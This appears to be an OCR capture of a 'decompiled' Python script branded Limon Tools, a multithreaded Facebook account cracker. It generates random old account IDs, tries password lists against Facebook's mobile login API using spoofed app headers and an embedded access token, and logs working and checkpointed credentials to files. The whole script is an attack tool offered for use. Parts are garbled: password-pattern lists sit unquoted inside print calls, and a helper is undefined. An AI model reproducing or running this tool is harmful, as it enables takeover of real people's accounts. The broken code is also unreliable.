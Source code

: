 # Decompile by Mardis (Tools By Carzy Limon)
W = '\033[97;1m' 
R = '\033[91;1m' 
G = '\033[92;1m' 
Y = '\033[93;1m' 
B = '\033[94;1m'
P = '\033[95;1m'
C = '\033[96;1m'
N = '\x1b[0m'



import os
try:
	import requests
except ImportError:
	os.system("pip install requests")

try:
	import concurrent.futures
except ImportError:
	os.system("pip install futures")

import os
import sys
import time
import requests
import random
import platform
import base64
import subprocess
from concurrent.futures import ThreadPoolExecutor

logo = """

██╗     ██╗███╗   ███╗ ██████╗ ███╗   ██╗   ████████╗ ██████╗  ██████╗ ██╗     ███████╗    
██║     ██║████╗ ████║██╔═══██╗████╗  ██║   ╚══██╔══╝██╔═══██╗██╔═══██╗██║     ██╔════╝    
██║     ██║██╔████╔██║██║   ██║██╔██╗ ██║█████╗██║   ██║   ██║██║   ██║██║     ███████╗    
██║     ██║██║╚██╔╝██║██║   ██║██║╚██╗██║╚════╝██║   ██║   ██║██║   ██║██║     ╚════██║    
███████╗██║██║ ╚═╝ ██║╚██████╔╝██║ ╚████║      ██║   ╚██████╔╝╚██████╔╝███████╗███████║    
╚══════╝╚═╝╚═╝     ╚═╝ ╚═════╝ ╚═╝  ╚═══╝      ╚═╝    ╚═════╝  ╚═════╝ ╚══════╝╚══════╝    
                                                                                           
 
   """


class Main:
	def __init__(self):
		self.id = []
		self.ok = []
		self.cp = []
		self.loop = 0
		os.system("clear")
		print(logo)
		print(' \033[1;95mDont Decode My Tools \033[0m')
		print(' \033[1;95mThis Tool Clone Old Account \033[0m')
		print("")
		print("%s [%s1%s]%s FILE CRACK FB ID 2008-11 %s[Just-Now-Open]"%(P,G,R,Y,B))
		print(" \033[1;96m[2] EXIT")
		__JISAN = input("\n\033[0;91m>>> \033[0;92m CHOOSE \033[0m: ")
		if __JISAN in ["", " "]:
			Main()
		elif __JISAN in ["1", "01"]:
			self.fbtua()
		else:
			exit()

	def fbtua(self):
		x = 111111111
		xx = 999999999
		idx = "100000" 
		os.system('clear');print(logo)
		limit = int(input(" \033[0;95m[+]\033[0;93m TOTAL IDS TO CRACK LIMIT 5000: "))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(G,Y,B,Y))
				print("%s EXAMPLE : %s786786,123456,1234567,123456789"%(G,Y))
				listpass = input("%s [?] ENTER PASSWORD :%s "%(G,Y))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(first
first1
first12
first123
first12345
last
last12
first@
first@#
first@@@
last@
@first
@first@
first first
first last
first last
first@123
first1122
@@@###
First last
firstlast12))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(G,first last
first12
first123
first1234
first12345
first123456
first143
first1122
first111
first@
first@@
first@@@
first@@@@
first@@@@@
first@#
57273200
i love you
bangladesh
first 
first1@2
First1@2#
First@#12))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(Y))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(G))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 10 SECONDS\x1b[0m\n"%(P))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n[>>] CRACK COMPLETE...")
		except Exception as e:exit(str(e))

	def api(self, uid, pwx):
		ua = file.cloning([
			"Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z007;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]", 
			"Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36[FBAN/EMA;FBLC/it_IT;FBAV/239.0.0.10.109;]"
		])
		sys.stdout.write(
			"\r\r %s[JISAN] : %s/%s -> \033[0;97m [OK:%s ] \033[0;97m[CP:%s ]"%(W,self.loop, len(self.id), len(self.ok), len(self.cp))
		); sys.stdout.flush()
		for pw in pwx:
			pw = pw.lower()
			ses = requests.Session()
			headers = {
				"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), 
				"x-fb-sim-hni": str(random.randint(20000, 40000)), 
				"x-fb-net-hni": str(random.randint(20000, 40000)), 
				"x-fb-connection-quality": "EXCELLENT",
				"x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA",
				"user-agent": ua, 
				"content-type": "application/x-www-form-urlencoded", 
				"x-fb-http-engine": "Liger"
			}
			response = ses.get("https://b-api.facebook.com/method/auth.login?format=json&email="+str(uid)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=headers) 
			if "session_key" in response.text and "EAAA" in response.text:
				print("\r  \033[0;92m   [LIMON-OK] %s | %s\033[0;97m         "%(uid, pw))
				self.ok.append("%s|%s"%(uid, pw))
				open("ok.txt","a").write("  * --> %s|%s\n"%(uid, pw))
				break
			elif "www.facebook.com" in response.json()["error_msg"]:
				print("\r  \033[0;91m   [LIMON-CP] %s | %s\033[0;97m         "%(uid, pw))
				self.cp.append("%s|%s"%(uid, pw))
				open("cp.txt","a").write("  * --> %s|%s\n"%(uid, pw))
				break
			else:
				continue

		self.loop +=1

try:Main()
except Exception as e:exit(str(e))

